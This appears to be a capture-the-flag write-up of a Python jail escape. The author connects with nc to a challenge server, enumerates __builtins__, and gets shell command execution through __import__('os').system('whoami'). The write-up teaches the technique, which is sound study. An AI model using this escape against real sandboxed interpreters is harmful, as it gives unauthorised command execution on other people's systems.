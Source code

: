 Now lets check for variables, functions, classes, and modules that are defined

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
Welcome To My Jail PlayGround Level1
Type 'exit' to leave the jail
>>> print(dir())
['__builtins__']
Execution successful.
```

there only `__builtins__` module defined, so now lets check how many interesting functions are included in this module

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
>>> print(dir(__builtins__))
['ArithmeticError', 'AssertionError', 
.......
......
__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
Execution successful.
```

well there a lot of interested attributes, functions and module but i was looking for `__import__` which is function used to import python module, now lets see how we can use it 

the usage of `__import__` is

```
__import__('ModuleName').FunctionfromimportedModule('argurments')
```

so there module called `os` used to execute a system command called `system` they payload will look like

```
__import__('os').system('whoami')
```

this will import module `os` and execute `whoami` command using `system` function, lets try on our target,

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
>>> print(__builtins__.__import__('os').system('whoami'))
nobody
0
Execution successful.
>>>
```
